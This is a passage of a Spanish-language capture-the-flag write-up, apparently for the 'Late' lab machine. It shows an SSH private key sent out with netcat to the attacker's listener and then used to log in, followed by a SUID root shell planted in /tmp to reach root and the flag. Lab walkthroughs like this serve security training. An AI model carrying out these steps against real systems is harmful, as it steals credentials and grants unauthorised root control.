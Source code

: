 ```bash
svc_acc@late:~/.ssh$ nc 10.10.14.2 8443 < id_rsa
^C
svc_acc@late:~/.ssh$ md5sum id_rsa
85c65df127f0f6a53c029f03676dde3a  id_rsa
svc_acc@late:~/.ssh$
```

```bash
❯ nc -nlvp 8443 > id_rsa
listening on [any] 8443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.156] 57148
❯ md5sum id_rsa
85c65df127f0f6a53c029f03676dde3a  id_rsa
```

```bash
❯ chmod 600 id_rsa
❯ ssh -i id_rsa svc_acc@10.10.11.156
The authenticity of host '10.10.11.156 (10.10.11.156)' can't be established.
ECDSA key fingerprint is SHA256:bFNeiz1CrOE5/p6XvXGfPju6CF1h3+2nsk32t8V1Yfw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.156' (ECDSA) to the list of known hosts.
svc_acc@late:~$ whoami
svc_acc
svc_acc@late:~$
```

Al momento de ingresar ya vemos la `bash` clonada (**Nota**: Debemos hacerlo rápido porque nuestra lineas se borran del archivo `/usr/local/sbin/ssh-alert.sh`).

```bash
svc_acc@late:~$ cd /tmp/
svc_acc@late:/tmp$ ll
total 1136
drwxrwxrwt 12 root    root       4096 Jul 24 05:33 ./
drwxr-xr-x 23 root    root       4096 Apr  7  2022 ../
drwxrwxrwt  2 root    root       4096 Jul 24 04:37 .font-unix/
drwxrwxrwt  2 root    root       4096 Jul 24 04:37 .ICE-unix/
-rwsr-xr-x  1 root    root    1113504 Jul 24 05:33 k4mi*
drwx------  3 root    root       4096 Jul 24 04:37 systemd-private-dbbb43a870434c1d990b004a477d286a-ModemManager.service-qAtYmz/
drwx------  3 root    root       4096 Jul 24 04:37 systemd-private-dbbb43a870434c1d990b004a477d286a-systemd-resolved.service-kp01m2/
drwx------  3 root    root       4096 Jul 24 04:37 systemd-private-dbbb43a870434c1d990b004a477d286a-systemd-timesyncd.service-Mo2A8G/
drwxrwxrwt  2 root    root       4096 Jul 24 04:37 .Test-unix/
drwx------  2 svc_acc svc_acc    4096 Jul 24 04:54 tmux-1000/
drwx------  2 root    root       4096 Jul 24 04:37 vmware-root_736-2991268455/
drwxrwxrwt  2 root    root       4096 Jul 24 04:37 .X11-unix/
drwxrwxrwt  2 root    root       4096 Jul 24 04:37 .XIM-unix/
svc_acc@late:/tmp$ ./k4mi -p
k4mi-4.4# whoami
root
k4mi-4.4#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).